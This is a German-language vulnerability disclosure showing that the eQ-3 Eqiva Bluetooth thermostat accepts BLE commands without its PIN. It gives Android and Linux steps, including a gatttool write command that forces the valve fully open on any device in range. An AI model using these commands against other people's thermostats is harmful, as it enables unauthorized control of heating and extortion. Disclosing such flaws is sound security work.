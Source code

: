# Sicherheitslücke in Thermostat eQ-3 Eqiva BLE

Bei dem [eQ-3 Eqiva](http://www.eq-3.de/produkte/eqiva/bluetooth-smart-heizkoerperthermostat.html) handelt es sich um einen smarten Heizungsthermostat mit einer integrierten Bluetooth LE Schnittstelle. Der Hersteller empfiehlt folgende App zum Steuern des Thermostates per Smartphone: [Calor BT](https://play.google.com/store/apps/details?id=de.eq3.ble.android&hl=de).

Verbindet man sich per App mit dem Heizungsthermostat wird ein vierstelliger PIN Code abgefragt, der am Thermostat abgelesen werden muss. Ein Sicherheitsfeature, damit nur jemand den Thermostat steuern kann, der auch physischen Zugang zu ihm hat, z.B. in der eigenen Wohnung.

Interessanterweise spielt dieser PIN Code jedoch keine Rolle, wenn man direkt BLE Befehle mit entsprechenden Werkzeugen - ein Smartphone ist ausreichend - an den Thermostaten sendet (siehe unten). **Dies bedeutet, dass jeder Thermostat in Reichweite (ca. 40m bei Bluetooth LE [1]) mit einfachsten Mitteln fern- und damit fremdgesteuert werden kann.**

Angriffsmotive reichen von dem einfachen Verstellen der Einstellungen bis hin zu Erpressungsszenarien wie dem Abstellen der Heizung bis ein entsprechender Geldbetrag gezahlt wurde.

**Im Moment kann nur dazu geraten werden die Bluetoothfunktion im Thermostat zu deaktivieren.**

IMHO: _Wie dieses Gerät mit dieser gravierenden Sicherheitslücke Testsieger bei Stiftung Warentest werden konnte ist mir ein Rätsel._

## Android

### 1\. nRF Connect installieren

<https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=de>

### 2\. Mit Thermostat verbinden

![01-nrf-connect](/img/01-nrf-connect.png)

### 3\. BLE Characteristic auswählen

![02-nrf-connect](/img/02-nrf-connect.png)

### 4\. Boostmodus aktivieren (Ventil wird voll geöffnet)

![03-nrf-connect](/img/03-nrf-connect.png)

## Linux (getestet mit Raspberry Pi 3 und Raspbian)

### 1\. Nach BLE Geräten suchen

`hcitool lescan`

![HCI Tool Scan Example](/img/01-hcitool-scan.png)

Gerät mit Name "CC-RT-BLE" ist der Thermostat.

### 2\. Boostmodus aktivieren (Ventil wird voll geöffnet)

`gatttool -b 00:1A:22:09:DA:10 --char-write-req --handle=0x0411 --value=4501`

_Entsprechend die MAC-Adresse austauschen._

## Weitere Informationen unter:

- [eq-3 Eqiva API Dokumentation von Heckie75 bei Github](https://github.com/Heckie75/eQ-3-radiator-thermostat/blob/master/eq-3-radiator-thermostat-api.md)

- [FHEM Forum](https://forum.fhem.de/index.php/topic,39308.0.html)

## Referenzen:

[1] - <https://de.wikipedia.org/wiki/Bluetooth_Low_Energy>
